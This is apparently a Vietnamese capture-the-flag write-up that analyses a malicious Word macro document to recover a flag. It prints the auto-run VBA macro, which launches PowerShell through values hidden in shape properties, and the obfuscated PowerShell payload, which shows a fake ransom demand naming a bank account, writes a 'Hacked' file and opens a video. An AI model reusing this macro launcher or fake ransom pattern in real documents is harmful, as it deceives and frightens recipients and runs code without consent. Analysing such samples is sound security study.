 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-15%20223359.png)

Đề cho một file 'docm' chứa malware. Sử dụng tool olevba để phân tích:
```
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
    Next
Else
    MsgBox "Microsoft Word is not installed on this computer or its version is lower than Microsoft Word 2013", vbCritical
    Application.Quit
End If
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

+----------+--------------------+---------------------------------------------+
```
Được phần 1 của flag `Flag format: KCSC{H1_1m_sUcky_+$phlac}`. Khả năng phần 2 là giá trị của biến `$phlac` trong powershell được thi thực thi bằng script ở trên. Cho nên bước tiếp theo ta sẽ phân tích động. Cho chạy file `Flag.docm` (nhớ là tắt hết các phần mềm anti viruss và thực thi trên máy ảo), thì thấy môt mà hình terminal được bật lên và dẫn tới một video trên youtube (Cảnh bảo: đeo tai nghe trước khi chạy file =)) ).
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20180624.png)

Mở file trong đường dẫn `"C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"` để xem lịch sử cmd đã thực thi. Thấy có ps được chạy khi mở file 'Flag.docm'
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20181608.png)

```
${p4yL04D}=('Mộ'+'t '+'s'+'ố '+'tà'+'i '+'l'+("{1}{0}" -f 'u ','iệ')+'qua'+'n '+'trọ'+'ng '+'của'+' '+'b'+'ạn '+'đ'+'ã '+'bị'+' '+'m'+'ã '+(("hóa!!`nĐể "+'')+'')+("{0}{1}" -f 'đư','ợc')+' '+'hướ'+'ng '+'d'+'ẫn '+'giả'+'i '+'m'+'ã, '+'bạn'+' '+'cầ'+'n '+("{1}{0}" -f'uy','ch')+'ể'+'n '+'kh'+("{1}{0}"-f'ản ','o')+'1'+("{0}{1}"-f '00','k ')+'và'+'o '+'s'+'ố '+'tài'+' '+("{1}{0}" -f'ả','kho')+'n'+' '+(("sau:`n1010107112000`nChủ "+'')+'')+'tà'+'i '+'kh'+("{1}{0}" -f ':','oản')+' '+'N'+'guy'+'ễn '+'Th'+("{1}{0}" -f' ','anh')+(("Long`nNgân "+'')+'')+'h'+("{0}{1}" -f 'àng',' ')+'M'+'B '+'Ba'+'nk')
&('A'+'d'+("{0}{1}"-f 'd-T','ype')) -AssemblyName ("{1}{6}{0}{3}{5}{4}{2}"-f 't.V',("{0}{1}"-f 'Micr','os'),'ic','is',("{1}{0}" -f 's','lBa'),'ua','of');
seT-ItEM ("V"+"arIab"+"le:hVI96") ( [TypE]("{4}{5}{7}{1}{3}{6}{0}{8}{2}" -F 'c.InTER','b','ION','a','miCrOsOf','t.ViS','sI','uAl','ACT') ) ;
 SEt-itEM ('vA'+'Riab'+'le:'+'O7v'+'8k')  (  [TYPE]("{4}{5}{3}{2}{0}{1}"-F '.MSGBOxSt','yLe','.VIsualbASic','Soft','MiC','rO')  ) ;
( get-vARIABlE ('hvI9'+'6')  -valUEONl )::MsgBox(${p4yL04D},  $O7V8K::Information, ("{1}{4}{8}{11}{9}{0}{2}{3}{6}{10}{7}{5}" -f 'cùng thương','Chú',' ','t','ng tô','in','i',' t','i ',' ','ếc báo',' vô'));
.("{3}{0}{1}{2}" -f("{1}{0}"-f 'tp','-Ou'),'u','t',("{0}{1}"-f'W','rite')) ${p4yL04D} | .("{1}{0}{2}" -f("{0}{1}{2}"-f'u','t-','Fil'),'O','e') -Encoding ("{1}{0}"-f'f8','ut') "C:\Users\$env:UserName\Desktop\Hacked.txt"
${Ws`CripT} = .("{0}{2}{1}"-f'New-O','ct','bje') -com ("{1}{0}{2}"-f'c','ws','ript.shell');
 1..50 | .('%') { ${w`SCri`Pt}."s`endK`EYs"([char]175) };
&("{2}{0}{1}" -f 't','art-Process','S') ("{2}{1}{0}" -f 'lore','p','iex') -ArgumentList ("{1}{6}{2}{0}{5}{3}{7}{4}"-f 'ww.youtube.c','-k ','://w','m/w','pRqs4k','o','https','atch?v=BMEdB')
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
.("{4}{0}{3}{2}{1}"-f'-Va','e','abl','ri',("{0}{1}" -f'R',("{0}{1}"-f'emo','ve'))) ("{1}{0}" -f 'c',("{0}{1}" -f'phl','a'))
```

Tìm thấy được biến $phlac
```
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
```
Chạy câu lệnh trên trong terminal và dùng `echo $phlac` để xem giá trị của biến 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20182858.png)

Flag = KCSC{H1_1m_sUcky_Tr0ll_m4lw@r3_y0u_g0t_m3_ah1Hi}



